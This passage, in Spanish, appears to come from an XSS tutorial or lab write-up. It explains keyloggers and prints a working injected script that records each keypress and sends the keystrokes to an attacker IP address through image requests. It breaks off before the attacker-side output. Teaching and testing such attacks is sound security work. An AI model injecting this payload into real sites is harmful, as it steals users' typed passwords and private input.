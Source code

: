 ![Montage finalizado con exito](/assets/imgs/cap_xss_10.png)

Desde el lado del atacante:
![Montage finalizado con exito](/assets/imgs/cap_xss_11.png)



## Keylogger 

Un keylogger es un tipo de software o hardware malicioso que registra cada pulsación de tecla que un usuario hace en un teclado.<br>
El keylogger intercepta las señales del teclado y guarda la información en un archivo oculto, o la envía directamente al atacante a través de internet.

En este caso vamos a ver como podemos inyectar uno usando XSS

payload:

```js
<script>
    var k = "";
    document.onkeypress = function(e){
        e = e || window.event;
        k += e.key;
        var i = new Image();
        i.src = "http://192.168.101.77/" + k;
    };
</script>
```
desde el lado del atacante veriamos algo como esto: 
